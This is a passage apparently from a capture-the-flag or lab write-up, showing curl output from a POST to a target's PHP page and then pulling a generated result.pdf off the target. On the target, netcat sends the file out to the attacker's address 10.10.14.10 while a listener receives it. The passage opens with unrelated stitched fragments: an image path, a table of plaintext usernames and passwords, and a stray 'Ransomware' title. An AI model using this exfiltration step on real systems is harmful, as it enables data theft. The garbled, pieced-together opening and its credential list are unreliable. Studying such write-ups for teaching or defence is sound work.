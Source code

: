     ]
}
PASSWORD	Management@#1@#
USERNAME	Mgmt
PASSWORD	Welcome123!
USERNAME	Cloudadm
PASSWORD	n2vM-<_K_Q:.Aa2
USERNAME	Sysadm
DATA	teststringalue
TITLE	Ransomware
Note: Unnecessary use of -X or --request, POST is already inferred.
\*   Trying 127.0.0.1:8000...
\* Connected to 127.0.0.1 (127.0.0.1) port 8000 (#0)
\> POST /index.php/ HTTP/1.1
\> Host: 127.0.0.1:8000
\> User-Agent: curl/7.72.0
\> Accept: */*
\> Content-Length: 17
\> Content-Type: application/x-www-form-urlencoded
\> 
\* upload completely sent off: 17 out of 17 bytes
\* Mark bundle as not supporting multiuse
\< HTTP/1.1 200 OK
\< Date: Tue, 15 Dec 2020 16:39:56 GMT
\< Server: Apache/2.4.41 (Ubuntu)
\< Content-Length: 0
\< Content-Type: text/html; charset=UTF-8
\< 
\* Connection #0 to host 127.0.0.1 left intact

{% endhighlight %}

As you can see, we now have a code `200` from the `curl` output, which sounds good. Now let's have a look at our `tmp` folder on the target machine. 

{% highlight sh %}
ls -l $tmp
{% endhighlight %}

{% highlight text %}
-rw-r--r-- 1 roy roy   14 Dec 15 16:40 822.html
-rw-r--r-- 1 roy roy 1634 Dec 15 16:40 result.pdf
{% endhighlight %}

Let's download the `result.pdf` file on our box. 

On the target:
{% highlight sh %}
nc 10.10.14.10 3333 < $tmp/result.pdf
{% endhighlight %}

On my local machine:
{% highlight sh %}
nc -lvnp 3333 > result.pdf
{% endhighlight %}
